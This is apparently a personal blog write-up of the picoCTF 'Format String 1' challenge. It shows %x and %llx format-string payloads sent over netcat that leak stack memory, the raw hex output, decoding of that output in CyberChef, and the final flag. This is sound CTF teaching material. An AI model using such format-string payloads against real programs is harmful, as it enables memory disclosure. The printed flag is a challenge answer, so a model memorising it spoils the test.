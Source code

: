 ```yaml
---
layout: post
title:  "Format String 1"
subtitle: 2024-08-25
date:   2024-08-25
description: Easy format string vulnerability
tags: ["Binary Exploitation", "Format String", "Easy"]
category: [CTF, picoCTF]
---
```


# Challenge Info
description: `Patrick and Sponge Bob were really happy with those
orders you made for them, but now they're curious
about the secret menu. Find it, and along the way,
maybe you'll find something else of interest!`

Downloads the binary [here](https://artifacts.picoctf.net/c_mimas/82/format-string-1).

Downloads the source [here](https://artifacts.picoctf.net/c_mimas/82/format-string-1.c).

Connect with the challenge instance here:
`nc mimas.picoctf.net <port>`

author: Connor Chang

![format string 1](/assets/img/formatstring-1/formatstring1.png)

## Attempts

Upon connecting to the netcat listener, we're prompted: `Give me your order and I'll read it back to you:`

Because of the name of the challenge; "**Format String** 1", we already get a pretty big hint. Just from experience, I know that `%x` can be used in format string vulnerabilities to either dump or navigate memory stacks. Naturally, this is the route I took.

```
~ > nc mimas.picoctf.net 63183                               INT 18s
Give me your order and I'll read it back to you:
%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,
Here's your order: 402118,0,6377ea00,0,a64880,a347834,b4da5590,6356fe60,637944d0,1,b4da5660,0,0,6f636970,6d316e34,33317937,3431665f,64303935,7,637968d8,7,74307250,6c797453,9,637a7de9,63578098,637944d0,0,b4da5670,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,454d4100,6e656c6c,4c564c48,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
Bye!
```

After pasting this into [Cyberchef](https://gchq.github.io/CyberChef/) with "From Hex" selected, I started to notice what might be a flag.

![possible flag](/assets/img/formatstring-1/possibleflag.png)

## Solution

After inspecting the initial output, I decided to modify my format string to use `%llx` instead of `%x`. The `ll` modifier stands for "long long," which in C is a data type representing a 64-bit integer. By using `%llx`, I ensured that each stack read would capture a full 64-bit value, meaning 16 hexadecimal digits would be printed instead of just 8. This is important because the flag or other useful data might be stored in a location that requires reading all 16 bytes (instead of 8) to be fully captured.

After using this adjustment, with commas `,` to clearly separate each stack, I got a different result:


```
~ > nc mimas.picoctf.net 63183                            INT 1m 53s
Give me your order and I'll read it back to you:
%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,
Here's your order: 402118,0,7aaeacfeba00,0,1c1f880,a347834,7ffd67ec6cc0,7aaeacddce60,7aaead0014d0,1,7ffd67ec6d90,0,0,7b4654436f636970,355f31346d316e34,3478345f33317937,35365f673431665f,7d313464303935,7,7aaead0038d8,2300000007,206e693374307250,a336c797453,9,7aaead014de9,7aaeacde5098,7aaead0014d0,0,7ffd67ec6da0,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,
Bye!
```

I decided to put these hex values through Cyberchef again, and saw what's definitely an encoded flag:

![possible flag](/assets/img/formatstring-1/possibleflag2.png)

After removing the null values, I was left with this:

![jumbled flag](/assets/img/formatstring-1/jumbledflag.png)

From here, the challenge is mostly nonsensical decoding, and it gets really bad (there is a reason it's < 50% positive reviews). I went through it anyways, but I probably won't write how I decoded/solved it, it's not really "hacking" and serves no purpose for this challenge.

flag: `picoCTF{4n1m41_57y13_4x4_f14g_65590d41}`
